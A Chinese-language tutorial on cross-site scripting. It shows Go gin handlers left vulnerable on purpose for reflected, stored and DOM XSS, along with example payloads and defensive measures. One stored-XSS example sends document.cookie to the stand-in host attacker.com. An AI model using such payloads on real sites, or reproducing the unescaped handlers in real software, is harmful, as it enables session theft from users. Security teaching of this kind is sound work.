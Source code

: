 ```yaml
---
title: XSS Attack
createTime: 2025-1-27
author: ZQ
permalink: /network/webserver/xss/attack/
tags:
  - web
---
```


跨站脚本攻击（Cross-Site Scripting，XSS）是一种常见的Web安全漏洞。攻击者通过在网页中注入恶意的客户端脚本，使其在用户的浏览器上执行，从而获取用户的敏感信息，如Cookie、会话令牌等，或者执行其他恶意操作。

<!-- more -->

## 原理

+ 输入验证不足：Web应用程序未对用户输入进行充分的验证和过滤，直接将用户输入渲染到页面中。
+ HTML注入：攻击者能够将HTML标签和JavaScript代码注入到网页中。
+ 脚本执行：注入的恶意代码在用户浏览器中被解析并执行。

## 实验

### 反射型XSS演示

使用`gin`框架实现一个简单的搜索功能，展示反射型XSS漏洞。完整示例代码可在[github](https://github.com/Zqzqsb/WebSecurityDemos/tree/main/XSS_Inject)查看。

```go
// Reflected XSS endpoint - vulnerable to XSS attacks
func searchHandler(c *gin.Context) {
    query := c.Query("q")
    // Unsafe: directly reflecting user input
    result := "Search results for: " + query
    c.Header("Content-Type", "text/html")
    c.String(http.StatusOK, result)
}
```

### 反射型XSS

反射型XSS是最简单的XSS攻击形式，攻击者将恶意代码作为URL参数传入，服务器将其直接反射到响应页面中。

当攻击者构造以下URL：
```
http://example.com/search?q=<script>alert('XSS!');</script>
```

服务器响应的HTML内容为：
```html
Search results for: <script>alert('XSS!');</script>
```

浏览器解析这段HTML时会执行JavaScript代码，弹出警告框。

### 存储型XSS

存储型XSS通过将恶意代码存储在服务器数据库中，当其他用户访问包含该内容的页面时触发攻击。

```go
// Stored XSS vulnerability in comment system
func commentHandler(c *gin.Context) {
    content := c.PostForm("content")
    // Unsafe: storing unfiltered user input
    db.Create(&Comment{Content: content})
    c.Redirect(http.StatusFound, "/")
}
```

攻击者提交包含恶意代码的评论：
```html
<script>
    var cookie = document.cookie;
    new Image().src = "http://attacker.com/steal?cookie=" + cookie;
</script>
```

当其他用户访问评论页面时，恶意脚本会执行并将用户的Cookie发送给攻击者。

### DOM型XSS

DOM型XSS利用JavaScript动态修改页面DOM结构时的漏洞，不需要与服务器交互。

```javascript
// Unsafe DOM manipulation
function showGreeting() {
    var name = document.getElementById('userInput').value;
    document.getElementById('output').innerHTML = 'Hello, ' + name + '!';
}
```

攻击者输入：
```html
<img src=x onerror="alert('DOM XSS!');">
```

当JavaScript将这段内容插入DOM时，`onerror`事件处理器会被触发，执行攻击代码。

### URL片段攻击

DOM型XSS的另一种形式是通过URL片段（fragment）进行攻击：

```javascript
// Unsafe handling of URL fragment
if(window.location.hash) {
    var hash = window.location.hash.slice(1);
    document.getElementById('output').innerHTML = decodeURIComponent(hash);
}
```

攻击者构造URL：
```
http://example.com/#<script>alert('URL Fragment XSS!');</script>
```

## 防护措施

1. 输入验证和过滤
```go
// Safe: escaping HTML content
safeContent := template.HTMLEscapeString(content)
```

2. 使用安全的模板系统
```go
// Safe: using template engine's auto-escaping
tmpl.Execute(w, data)
```

3. 内容安全策略（CSP）
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

4. 输出编码
```javascript
// Safe: using textContent instead of innerHTML
element.textContent = userInput;
```

5. HttpOnly Cookie
```go
c.SetCookie("session", token, 3600, "/", "", true, true)
```

6. 验证URL和文件上传
```go
// Validate URLs
if !isValidURL(url) {
    return errors.New("invalid URL")
}
```

## 总结

XSS攻击利用了Web应用程序对用户输入处理不当的漏洞。通过实施适当的安全措施，如输入验证、输出编码和内容安全策略，可以有效防止XSS 攻击。在开发Web应用时，应始终遵循安全编码实践，确保用户数据的安全处理。